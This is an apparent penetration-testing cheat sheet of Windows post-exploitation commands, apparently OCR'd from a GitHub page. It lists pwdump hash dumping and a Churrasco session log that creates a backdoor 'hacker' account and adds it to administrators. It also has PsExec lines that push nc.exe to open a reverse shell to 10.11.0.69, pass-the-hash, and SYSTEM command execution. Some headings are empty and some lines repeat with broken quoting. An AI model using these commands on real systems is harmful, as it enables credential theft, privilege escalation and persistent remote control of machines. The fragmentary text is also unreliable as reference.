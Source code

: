 #### pwdump.exe

pwdump.exe localhost

#### Churrasco.exe

Churrasco.exe "net user hacker Passw0rd123! /add

c:\Inetpub>Churrasco.exe "net user hacker Passw0rd123! /add"

Churrasco.exe "net user hacker Passw0rd123! /add"

The command completed successfully.

c:\Inetpub>Churrasco.exe "net localgroup administrators /add hacker"

Churrasco.exe "net localgroup administrators /add hacker"

The account already exists.

c:\Inetpub>Churrasco.exe "net localgroup administrators hacker /add"

Churrasco.exe "net localgroup administrators hacker /add

The command completed successfully.

c:\Inetpub>Churrasco.exe "net localgroup administrators /add hacker"

Churrasco.exe "net localgroup administrators hacker /add"



#### PsExec.exe

PsExec.exe /accepteula

Run commands on the local system

PsExec.exe \\\hostname -i -d -c -u *username* -p *password* file to run and accepteula

PsExec.exe \\hostname -i -d -c -u user -p password c:\Users\Public\nc.exe -nv 10.11.0.69 444 -e cmd.exe /accepteula

Run commands from a remote system

psexec /accepteula \\*ip* -u Domain\user -p *LM*:*NTLM* cmd.exe /c dir c:\Progra~1

Run remote command as system

psexec /accepteula \\*ip* -s cmd.exe

#### ICALCS

#### Week Services attacks

#### backdoor-legit-win-service.py

viper-shell/application/modules/post/

Examples are located here

viper-shell/application/modules/post/Scsi/
